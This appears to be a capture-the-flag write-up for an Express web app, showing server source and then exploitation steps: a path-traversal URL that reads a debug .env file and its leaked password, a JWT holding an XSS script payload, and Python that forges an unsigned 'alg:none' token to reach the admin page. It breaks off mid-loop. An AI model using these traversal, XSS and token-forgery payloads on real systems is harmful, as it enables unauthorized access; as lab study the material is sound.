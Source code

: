 ```js
    fileUpload({
        limits: {
            fileSize: 2 * 1024 * 1024 // 2 MB
        },
        abortOnLimit: true
    })
);

nunjucks.configure('views', {
    autoescape: true,
    express: app
});

app.disable('etag');

app.set('views', './views');
app.use('/static', express.static(path.resolve('static')));

app.use(router.default(db));

app.all('*', (req, res) => {
    return res.status(404).send({
        message: '404 page not found'
    });
});

(async () => {
    await db.connect();
    await db.migrate();
    app.listen(1337, '0.0.0.0', () => console.log('Listening on port 1337'));
})();
```

And the .env: `http://167.99.94.114:31956/download?resume=....//....//....//....//....//app//debug.env`, `DEBUG_PASS=CzliwZJkV60hpPJ`.

## JWT

```
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IjwvaDE-PC9wPjxzY3JpcHQ-YWxlcnQoJ1hTUycpOzwvc2NyaXB0PiIsImlhdCI6MTY2OTk4Njg0NH0.3k-DrKL7wY3T0QJ0N_6owMKRTevB1TLSXPeC5Rrit8k
```

```python
from base64 import urlsafe_b64decode, urlsafe_b64encode
from json import dumps

urlsafe_b64decode(b'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9') # b'{"alg":"HS256","typ":"JWT"}'
urlsafe_b64decode(b'eyJ1c2VybmFtZSI6IjwvaDE-PC9wPjxzY3JpcHQ-YWxlcnQoJ1hTUycpOzwvc2NyaXB0PiIsImlhdCI6MTY2OTk4Njg0NH0=') # b'{"username":"</h1></p><script>alert(\'XSS\');</script>","iat":1669986844}'
urlsafe_b64decode(b'3k-DrKL7wY3T0QJ0N_6owMKRTevB1TLSXPeC5Rrit8k=') # signature b'\xdeO\x83\xac\xa2\xfb\xc1\x8d\xd3\xd1\x02t7\xfe\xa8\xc0\xc2\x91M\xeb\xc1\xd52\xd2\\\xf7\x82\xe5\x1a\xe2\xb7\xc9'

jwt = (urlsafe_b64encode(b'{"alg":"none","typ":"JWT"}').decode() + '.' + urlsafe_b64encode(b'{"username":"admin","iat":1669986844}').decode() + ".3k-DrKL7wY3T0QJ0N_6owMKRTevB1TLSXPeC5Rrit8k").replace("=", "")

from urllib.request import urlopen, Request
response = urlopen(Request("http://167.99.94.114:31956/admin", headers={'Cookie': 'session=' + jwt})) # Access to admin page !

print(jwt) # In your browser: document.cookie="session={jwt}"

for x in range(1335, 65535):
```